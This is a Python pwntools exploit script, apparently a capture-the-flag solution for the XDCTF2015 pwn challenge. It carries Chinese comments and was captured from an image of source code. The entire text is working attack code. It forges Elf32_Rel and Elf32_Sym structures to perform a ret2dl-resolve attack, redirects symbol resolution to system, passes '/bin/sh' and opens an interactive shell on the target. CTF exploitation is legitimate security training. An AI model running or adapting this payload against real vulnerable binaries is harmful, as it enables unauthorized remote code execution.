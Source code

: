 ```python
p.recvuntil('Welcome to XDCTF2015~!\n')
p.sendline(payload1)

jmp_to_dl_runtime_resolve_addr=0x08048370
string="/bin/sh\x00"

fake_write_Elf32_Rel_addr=new_stack_esp+4*7 #一个p32占四字节，执行leave中的pop ebp后开始计算
                                            #fake_write_addr指fake_write_Elf32_Rel的地址
rel_plt_start_addr=0x8048324
fake_reloc_arg=fake_write_Elf32_Rel_addr-rel_plt_start_addr

#fake_r_offset=elf.got['write']  
#fake_r_info=0x607
#fake_write_Elf32_Rel=p32(fake_r_offset)+p32(fake_r_info) #伪造write的Elf32_Rel结构体

#fake_st_name=0x080482B8-0x0804826C  
real_dynsym_start_addr=elf.get_section_by_name('.dynsym').header.sh_addr

fake_write_Elf32_Sym_addr=new_stack_esp+4*9
align=0x10-((fake_write_Elf32_Sym_addr-real_dynsym_start_addr)&0xf) #进行对齐
fake_write_Elf32_Sym_addr=fake_write_Elf32_Sym_addr+align           #重新计算fake_Elf32_Sym地址

fake_r_offset=elf.got['write']   
dynsym_index=(fake_write_Elf32_Sym_addr-real_dynsym_start_addr)/0x10
fake_r_info=(dynsym_index<<0x8)|0x7                      #根据fake_Elf32_Sym反推r_info
fake_write_Elf32_Rel=p32(fake_r_offset)+p32(fake_r_info) #伪造write的Elf32_Rel结构体

fake_system_string='system\x00'               #更改为system\x00
fake_write_string_addr=new_stack_esp+4*9+align+0x4*4
read_strtab_start_addr=elf.get_section_by_name('.dynstr').header.sh_addr
fake_st_name=fake_write_string_addr-read_strtab_start_addr
fake_st_valve=0
fake_st_size=0 
fake_st_info=0x12
fake_st_other=0
fake_st_shndx=0
fake_write_Elf32_Sym=p32(fake_st_name)+p32(fake_st_valve)+p32(fake_st_size)+p8(fake_st_info)+p8(fake_st_other)+p16(fake_st_shndx)

bin_sh_addr=new_stack_esp+80   #通过计算可以得到
payload2=p32(0xdeadbeef)+p32(jmp_to_dl_runtime_resolve_addr)+p32(fake_reloc_arg)+p32(0xdeadbeef)  
#payload2+=p32(1)+p32(bss_addr+0x300+80)+p32(len(string))  #len("/bin/sh\x00")==0x10
payload2+=p32(bin_sh_addr)+p32(0xdeadbeef)*2  #p32(0xdeadbeef)*2用于补全
payload2+=fake_write_Elf32_Rel
payload2+='b'*align
payload2+=fake_write_Elf32_Sym   
payload2+=fake_system_string                  #更改这里

payload2+='c'*(80-len(payload2))
payload2+=string
payload2+='d'*(100-len(payload2))

#gdb.attach(p,"dir /home/ubuntu/Desktop/malloc/glibc/glibc-2.27/elf/")
p.sendline(payload2)
p.interactive()
```
